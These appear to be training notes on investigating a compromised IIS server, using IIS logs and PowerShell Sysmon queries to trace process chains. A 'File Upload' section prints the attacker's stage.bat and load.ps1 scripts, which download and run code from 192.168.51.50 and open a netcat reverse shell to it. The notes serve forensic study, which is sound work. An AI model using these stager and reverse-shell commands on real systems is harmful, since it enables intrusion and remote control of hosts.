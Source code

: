 The IIS log file reveals an HTTP POST to the vulnerable PATH used by the exploit.

We don't see the POSTDATA in IIS logs, but a direct attempt at posting data to this page at this particular time from `192.168.51.50`.

Over **3700 milliseconds elapsed** while executing the query.

=> A greater source of suspicion for anomalous activity.

Get any and all Sysmon events

```pwsh
Get-SysmonEvent $null "05/10/2021 16:02:00" "5/10/2021 16:03:00"
```

Search for Sysmon's `ProcessCreate` events

```pwsh
Get-SysmonEvent 1 "05/10/2021 16:02:33" "5/10/2021 16:02:35" | Format-List TimeCreated, @{Label = "CommandLine"; Expression = {$_.properties[10].value}}, @{Label = "User"; Expression = {$_.properties[12].value}}, @{Label = "ParentImage"; Expression = {$_.properties[20].value}}
```

When chaining processes with parent processes, use the **process/parent process IDs** located in the `ProcessCreate` events.

When anomalous activity is identified, trace from parent to parent until we find the origin of the activity.

### File Upload

`stage.bat`

```bat
@ECHO OFF
powershell -c "iex (New-Object System.Net.WebClient).DownloadString('http://192.168.51.50:8000/load.ps1')"
```

`load.ps1`

```pwsh
del stage.bat
wget http://192.168.51.50:8000/nc.exe -O /Windows/Temp/nc.exe
/Windows/Temp/nc.exe 192.168.51.50 4444 -e cmd.exe
```

=> Tracking the upload and execution of our `stage.bat` and `load.ps1` scripts

Since our IIS logs showed activity at 2:26:17 PM, query on all Sysmon events from 2:26 PM to 2:27 PM

```pwsh
Get-SysmonEvent $null "05/13/2021 14:26:00" "5/13/2021 14:27:00"
```

Gather all `ProcessCreate` events that occurred at the 17s mark. => 2 command injections downloading and running `stage.bat`.

```pwsh
Get-SysmonEvent 1 "5/13/2021 14:26:16" "5/13/2021 14:26:18" | Format-List TimeCreated, @{Label = "CommandLine"; Expression = {$_.properties[10].value}}, @{Label = "User"; Expression = {$_.properties[12].value}}, @{Label = "ParentImage"; Expression = {$_.properties[20].value}}
```
